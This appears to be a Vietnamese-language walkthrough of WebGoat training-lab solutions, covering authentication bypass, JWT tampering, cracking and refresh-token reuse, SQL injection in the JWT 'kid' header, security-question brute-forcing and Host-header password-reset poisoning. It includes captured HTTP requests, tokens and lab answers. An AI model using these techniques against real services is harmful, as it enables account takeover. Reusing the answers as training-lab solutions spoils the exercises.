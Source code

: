 # (A7) Identity & Auth Failure

## Authentication Bypasses

### 2. 2FA Password Reset

Sửa hai param `secQuestion0` và `secQuestion1` trong request thành `secQuestionA` và `secQuestionB`.

# (A3) Sensitive Data Exposure

## Insecure Login

### 2. Let’s try

Dùng Network tool của browser để bắt request:

![7](images/7.png)

username:

```
CaptainJack
```

password:

```
BlackPearl
```

## JWT

### 4. Decoding a JWT token

Sử dụng [jwt.io](https://jwt.io) để decode.

### 6. JWT signing

Đổi user thành Jerry và bấm Reset votes. Sau đó vào phần cookie của request sẽ thấy một cái `access_token`. Sửa lại đoạn jwt như sau:

![1](images/1.png)

### 11. JWT cracking

Dùng john để crack jwt secret sau đó dùng cyberchef để sign lại.

### 13. Refreshing a token

Khi load lession mình sẽ bắt được 1 cái request trông như thế này:

```
POST /WebGoat/JWT/refresh/login HTTP/1.1

...

{"user":"Jerry","password":"bm5nhSkxCXZkKRy4"}
```

Và response của nó:

```
{
  "access_token" : "eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IkplcnJ5In0.Z-ZX2L0Tuub0LEyj9NmyVADu7tK40gL9h1EJeRg1DDa6z5_H-SrexH1MYHoIxRyApnOP7NfFonP3rOw1Y5qi0A",
  "refresh_token" : "etmOBMYjKgqDZHOxCTiC"
}
```

Sử dụng `refresh_token` của Jerry để làm mới lại token của Tom:

```
POST /WebGoat/JWT/refresh/newToken HTTP/1.1
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1MjYxMzE0MTEsImV4cCI6MTUyNjIxNzgxMSwiYWRtaW4iOiJmYWxzZSIsInVzZXIiOiJUb20ifQ.DCoaq9zQkyDH25EcVWKcdbyVfUL4c9D4jRvsqOqvi9iAd4QuqmKcchfbU8FNzeBNF9tLeFXHZLU4yRkq-bjm7Q
Content-Type: application/json; charset=UTF-8

...

{
  "refresh_token" : "etmOBMYjKgqDZHOxCTiC"
}
```

Mình nhận được token mới:

```
{
  "access_token" : "eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IlRvbSJ9.a4yUoDOuv6L7ICs-HsE6craLHG_u6YDTkmXiGHjF7GdJZVZWCTurWBBunW9ujab8f4vNG31XAEvWYUEmAt0SGg",
  "refresh_token" : "cSxIFRlEhSDkCKXZIBQB"
}
```

Thay token mới của Tom vào `checkout` request là xong:

```
POST /WebGoat/JWT/refresh/checkout HTTP/1.1
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IlRvbSJ9.a4yUoDOuv6L7ICs-HsE6craLHG_u6YDTkmXiGHjF7GdJZVZWCTurWBBunW9ujab8f4vNG31XAEvWYUEmAt0SGg
...
```

### 18. Final challenge

SQLi vào phần `kid` ở header của jwt:

Phần `bWVv` được `UNION SELECT` chính là key `meo` đã được dùng để sign đoạn jwt này.

![2](images/2.png)

## Password reset

### 4. Security questions

Dùng burpsuite để bruteforce bảng màu:

username: 

```
admin
```

color: 

```
green
```

### 6. Creating the password reset link

Email sẽ được gửi đến header `Host` nên mình sẽ thay qua port `9090` là cổng của WebWolf để nhận email và reset lại password:

![5](images/5.png)

Link reset password nhận được bên WebWolf:

![6](images/6.png)

Sửa lại url và đặt lại pass rồi đăng nhập là xong.

```
http://127.0.0.1:8080/WebGoat/PasswordReset/reset/reset-password/bdc59334-7bfd-4a47-9a31-c159f4a71b27
```